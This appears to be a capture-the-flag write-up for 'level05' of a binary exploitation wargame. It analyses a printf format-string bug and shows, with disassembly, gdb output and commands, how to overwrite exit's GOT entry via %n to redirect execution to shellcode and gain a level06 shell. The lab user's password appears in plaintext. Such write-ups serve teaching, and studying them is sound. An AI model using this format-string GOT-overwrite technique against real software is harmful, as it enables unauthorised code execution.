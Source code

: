 ## level05

	username: level05
	password: 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN

### Mitigations applied:

```
$ checksec --file level05
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   level05
```

### Usage:

This program converts uppercase characters to lowercase.

```
$ ./level05
QWErty123@$
qwerty123@$
```

### Analysis:

`fgets()` is used to get user input.

```
/*
   0x0804845d <+25>:	mov    eax,ds:0x80497f0
   0x08048462 <+30>:	mov    DWORD PTR [esp+0x8],eax
   0x08048466 <+34>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804846e <+42>:	lea    eax,[esp+0x28]
   0x08048472 <+46>:	mov    DWORD PTR [esp],eax
   0x08048475 <+49>:	call   0x8048350 <fgets@plt>
 */
fgets(buf, 0x64, stdin);
```

And for each character in it, if it is an uppercase letter, they convert it to lowercase.

```
/*
   0x08048487 <+67>:	lea    eax,[esp+0x28]
   0x0804848b <+71>:	add    eax,DWORD PTR [esp+0x8c]
   0x08048492 <+78>:	movzx  eax,BYTE PTR [eax]
   0x08048495 <+81>:	cmp    al,0x40
   0x08048497 <+83>:	jle    0x80484cb <main+135>
   0x08048499 <+85>:	lea    eax,[esp+0x28]
   0x0804849d <+89>:	add    eax,DWORD PTR [esp+0x8c]
   0x080484a4 <+96>:	movzx  eax,BYTE PTR [eax]
   0x080484a7 <+99>:	cmp    al,0x5a
   0x080484a9 <+101>:	jg     0x80484cb <main+135>
 */
if (buf[var1] > 0x40 && buf[var1] <= 0x5a)
{
	/*
	   0x080484ab <+103>:	lea    eax,[esp+0x28]
	   0x080484af <+107>:	add    eax,DWORD PTR [esp+0x8c]
	   0x080484b6 <+114>:	movzx  eax,BYTE PTR [eax]
	   0x080484b9 <+117>:	mov    edx,eax
	   0x080484bb <+119>:	xor    edx,0x20
	   0x080484be <+122>:	lea    eax,[esp+0x28]
	   0x080484c2 <+126>:	add    eax,DWORD PTR [esp+0x8c]
	   0x080484c9 <+133>:	mov    BYTE PTR [eax],dl
	 */
	buf[var1] = buf[var1] ^ 0x20;
}
```

Then resulting string is passed to `printf` as its only argument.

```
/*
   0x08048500 <+188>:	lea    eax,[esp+0x28]
   0x08048504 <+192>:	mov    DWORD PTR [esp],eax
   0x0804850c <+200>:	mov    DWORD PTR [esp],0x0
   0x08048513 <+207>:	call   0x8048370 <exit@plt>
 */
printf(buf);
exit(0);
```

The problem here is the user input will treated by `printf` as a format string, which leads to reading data from the stack and even writing to it.

```
$ ./level05
%p %p %p %p
0x64 0xf7fcfac0 0xf7ec3add 0xffffd6ef
```

This binary is dynamically linked, which means functions from external libraries are loaded at runtime.

More so, if we look at the output of `checksec` command, we notice `RELRO` is set to `NO RELRO`, this means functions are loaded at their first call, then their addresses are to stored in the Global Offset Table (GOT) for further use.

We can take advantage of this and overwrite the address of `exit()` in the GOT and make it point to out injected shellcode.

### Exploit

Found the address of `exit()` at GOT: 0x80497e0

```
(gdb) disas 'exit@plt'
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    DWORD PTR ds:0x80497e0
...
```

Found the index of our input in printf, this will contain the address we want to overwrite (0x80497e0).

```
$ ./level05
AAAA %10$p
aaaa 0x61616161
```

Then used the `%n` flag in printf to write the shellcode's address into it.

We created a [script](Resources/exploit.py) to do that.

```
$ scp Resources/exploit.py level05@localhost:/tmp/exp.py -p 2222
$ $ (python /tmp/exp.py; cat) | ./level05
...
whoami
level06
```
